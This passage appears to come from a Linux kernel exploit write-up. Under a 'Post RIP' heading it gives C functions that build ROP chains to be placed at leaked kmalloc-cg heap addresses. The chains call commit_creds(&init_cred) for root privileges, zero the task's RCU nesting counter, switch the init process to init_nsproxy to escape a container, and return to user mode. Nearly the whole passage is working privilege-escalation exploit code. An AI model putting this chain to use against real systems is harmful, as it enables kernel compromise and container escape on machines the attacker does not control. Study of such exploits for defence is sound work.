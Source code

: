 ### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}

void make_payload2(uint64_t* data){
    int i = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
    data[i++] = -0xffff;
    data[i++] = kbase + mov_rax_rcx_ret;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```